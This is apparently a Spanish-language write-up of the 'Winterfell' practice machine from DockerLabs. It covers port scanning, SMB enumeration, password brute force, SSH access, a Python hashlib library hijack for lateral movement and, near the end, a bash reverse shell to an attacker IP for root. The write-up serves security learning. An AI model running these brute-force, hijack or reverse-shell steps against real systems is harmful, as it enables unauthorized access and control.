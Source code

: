 ## Maquina Vulnerable "Winterfell" de DockerLabs


Para realizar esta máquina vulnerable, se utilizó la plataforma de DockerLabs, la cual ofrece una variedad de laboratorios prácticos para aprender sobre seguridad en contenedores y Docker. La máquina "Winterfell" es una de las opciones disponibles en esta plataforma.

## Fase de Reconocimiento:

Primero para realizar una tarea de Pentesting, se debe realizar un reconocimiento a los activos disponibles que existen en la red. Para esto, simplemente verificamos que la máquina se encuentra encendida y que servicios tiene corriendo, simplemente haciendo un Ping:

```bash
ping 172.17.0.2 -c 3
```
![image](/static/images/winterfell/ping_winterfell.png)

## Escaneo de Puertos:

Luego de verificar que la máquina se encuentra encendida, se procede a realizar un escaneo de puertos para identificar los servicios que están corriendo en la máquina. Para esto, se utiliza la herramienta Nmap:

```bash
nmap -p- --open  172.17.0.2 -vvv -oG allPorts
```
Guardamos el resultado en formato grepeable para poder utilizar la herramienta que copia solo los puertos abiertos para luego realizar un escaneo más profundo.

![image](/static/images/winterfell/puertosabiertos.png)

Ahora escaneamos mas profundo solo los puertos abiertos de la máquina:

```bash
nmap -p22,80,139,445 -sCVT -Pn 172.17.0.2 -vvv -oN Targeted 
```
![image](/static/images/winterfell/nmap.png)

Para poder obtener mas información se utiliza la herramienta enum4linux, la cual nos permite obtener información de los usuarios, grupos, políticas de contraseñas, recursos compartidos, etc.

```bash
enum4linux -a 172.17.0.2
```
![image](/static/images/winterfell/enum4linux.png)

Como se puede observar, obtuvimos distintos usuarios, con los cuales se puede aplicar fuerza bruta para intentar obtener las contraseñas. Al no poder encontrar con fuerza bruta, se procede a buscar en la web haciendo fuzzing con la herramienta dirb, para intentar encontrar algún archivo o directorio interesante.

```bash
dirb http://172.17.0.2
```
Se encuentra un directorio llamado "dragon", donde se pueden observar datos interesantes que podrían ser contraseñas.

![image](/static/images/winterfell/contraseñas.png)

También se encuentra un recurso compartido "shared", el cual se puede intentar acceder para ver si se encuentra información sensible. Al tener los usuarios reconocidos para poder realizar fuerza bruta, se utiliza la herramienta hydra para intentar obtener las contraseñas de los usuarios obtenidos anteriormente.

```bash
smbclient -L 172.17.0.2 -N 
```
![image](/static/images/winterfell/shared.png)


## Explotación de Vulnerabilidades:

Ahora intentamos acceder a smb con el usuario "jon" y con las posibles contraseñas guardadas como payload. (los guarde como users.txt por que pensé que podían ser usuarios, pero en realidad son contraseñas).

```bash
netexec smb 172.17.0.2 -U jon -P ./users.txt
```
![image](/static/images/winterfell/smb.png)

Una vez dentro del recurso compartido con el comando:

```bash
smbclient //172.17.0.2/shared -U jon
```

En contramos un archivo llamado "proteccion del reino", el cual descargamos y vemos que tiene dentro.

![image](/static/images/winterfell/quetiene.png)

![image](/static/images/winterfell/dentro.png)

Como se puede ver, se tiene un mensaje cifrado, el cual claramente es base64. Procedemos a ver que dice:

![image](/static/images/winterfell/hijolanister.png)

Ahora usamos esta contraseña para entrar por ssh con el usuario "jon".

```bash
ssh jon@172.17.0.2
```
## Escalado de Privilegios:

Vemos que existe un mensaje oculto para Jon, el cual vemos y dice lo siguiente:

![image](/static/images/winterfell/mensajejon.png)

Vemos que al usar el comando "sudo -l" nos dice que podemos ejecutar un script de python para encriptar un mensaje cualquiera como jon o aria. En este script, se utiliza la libreria hashlib, en donde uno puede crear un archivo con ese nombre y poner un código malicioso para obtener una shell como aria. 

```python
import os
os.system("/bin/bash")
```
Luego se ejecuta el script

```bash
sudo -u aria /usr/bin/python3 /home/jon/.mensaje.py
```
Y obtenemos la shell como aria, en donde podemos ver la bandera de usuario.

![image](/static/images/winterfell/shellaria.png)

Ahora hacemos un "sudo -l" y podemos usar los siguientes comandos como daenerys:

![image](/static/images/winterfell/comandosdaenerys.png)


Buscando con los comandos que podemos usar, vemos que daenerys tiene un mensaje para que aria lo pueda leer. 

![image](/static/images/winterfell/mensajedaenerys.png)

Una vez dentro del directorio de daenerys, usamos el comando "sudo -l" y vemos que se puede ejecutar una shell como root.

![image](/static/images/winterfell/shell.png)

Se edita el archivo .shell.sh con la ip de la maquina atacante y con el puerto 9991 nos ponemos en escucha. De esta forma podemos obtener una reverse shell como root.

El codigo que se utiliza es:

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.100.119/9991 0>&1
```
De esta forma obtenemos acceso a la máquina victima como root.

![image](/static/images/winterfell/ROOT.png)